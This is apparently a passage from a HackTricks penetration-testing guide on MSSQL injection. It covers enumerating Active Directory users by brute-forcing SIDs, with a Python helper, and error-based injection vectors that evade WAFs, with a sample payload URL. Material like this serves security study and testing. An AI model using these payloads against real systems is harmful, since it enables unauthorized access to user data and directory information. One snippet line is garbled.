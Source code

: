 # MSSQL Injection

<details><summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>!HackTricks</strong></a><strong>!</strong></summary></details>

## Active Directory enumeration

It may be possible to **enumerate domain users via SQL injection inside a MSSQL** server using the following MSSQL functions:

* **`SELECT DEFAULT_DOMAIN()`**: Get current domain name.
* **`master.dbo.fn_varbintohexstr(SUSER_SID('DOMAIN\Administrator'))`**: If you know the name of the domain (_DOMAIN_ in this example) this function will return the **SID of the user Administrator** in hex format. This will look like `0x01050000000[...]0000f401`, note how the **last 4 bytes** are the number **500** in **big endian** format, which is the **common ID of the user administrator**.\
This function will allow you to **know the ID of the domain** (all the bytes except of the last 4).
* **`SUSER_SNAME(0x01050000000[...]0000e803)`** : This function will return the **username of the ID indicated** (if any), in this case **0000e803** in big endian == **1000** (usually this is the ID of the first regular user ID created). Then you can imagine that you can brute-force user IDs from 1000 to 2000 and probably get all the usernames of the users of the domain. For example using a function like the following one:
```python
def get_sid(n):
domain = '0x0105000000000005150000001c00d1bcd181f1492bdfc236'
user = struct.pack('<I', int(n))
user = user.hex()
return f"{domain}{user}" #if n=1000, get SID of the user with ID 1000
```
## **Alternative Error-Based vectors**

Error-based SQL injections typically resemble constructions such as `+AND+1=@@version--` and variants based on the «OR» operator. Queries containing such expressions are usually blocked by WAFs. As a bypass, concatenate a string using the %2b character with the result of specific function calls that trigger a data type conversion error on sought-after data.

Some examples of such functions:

* `SUSER_NAME()`
* `USER_NAME()`
* `PERMISSIONS()`
* `DB_NAME()`
* `FILE_NAME()`
* `TYPE_NAME()`
* `COL_NAME()`

Example use of function `USER_NAME()`:

```
USER_NAME() ʔuʔ
```
```
https://vuln.app/getItem?id=1'%2buser_name(@@version)--
```
![](https://swarm.ptsecurity.com/wp-content/uploads/2020/11/6.png)

